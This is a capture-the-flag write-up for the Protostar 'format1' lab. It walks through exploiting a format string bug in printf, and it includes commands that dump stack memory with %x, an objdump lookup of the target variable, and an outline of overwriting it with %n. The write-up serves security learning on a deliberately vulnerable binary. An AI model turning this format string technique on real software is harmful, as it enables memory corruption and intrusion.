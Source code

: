 **Format1**

This was not an easy challenge.

If you look closesly at the source code you see that the printf prints string as the format string variable.

```diff
$ printf(string);
```

Let's see what happens if we insert a random string

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 AAAA
AAAAuser@protostar:/opt/protostar/bin$ 
```

The printf prints out out string.
Now let's try a format string.

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 %d
134518284user@protostar:/opt/protostar/bin$ 
```

This looks like a memory address, we can try to print a few with them with %x.
The hints state that objdump -t is our friend (to find target's address) and our input string lies far up in the stack.
We need to find out exactly where lies our input, insert target's address and top it with a %n to modify target with a format string exploit.
Sound complicated? Let us first find out where our string lies

```diff
$ ./format1 "$(python -c "print 'ABCDEFGH' + '%x '*150")"
ABCDEFGH804960c bffff628 8048469 b7fd8304 b7fd7ff4 bffff628 8048435 bffff7eb b7ff1040 804845b b7fd7ff4 8048450 0 bffff6a8 b7eadc76 2 bffff6d4 bffff6e0 b7fe1848 bffff690 ffffffff b7ffeff4 804824d 1 bffff690 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6a8 39f3e985 13a7ff95 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6d4 8048450 8048440 b7ff1040 bffff6cc b7fff8f8 2 bffff7e1 bffff7eb 0 bffff9b6 bffff9c4 bffff9d8 bffff9fa bffffa0d bffffa17 bfffff07 bfffff45 bfffff59 bfffff70 bfffff81 bfffff89 bfffff99 bfffffa6 bfffffda bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbbf 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7cb 1f bffffff2 f bffff7db 0 0 0 a3000000 c4d03e41 d17d630f 186ae1da 692c8fff 363836 662f2e00 616d726f 41003174 **45444342** 25484746 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 user@protostar:/opt/protostar/bin$ 
```

There it is!.

Now we need to find out target's address

```diff
$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
```

Now, if we look at my python script, I bruteforced the offset of our input (I was lazy). We want to insert in our target address in little endian format.

What? why is it not aligned at all?

This took me hours on hours of debugging, we need to insert a few characters before and after our input to re-align target's address.
Then, we add the %n and look proud!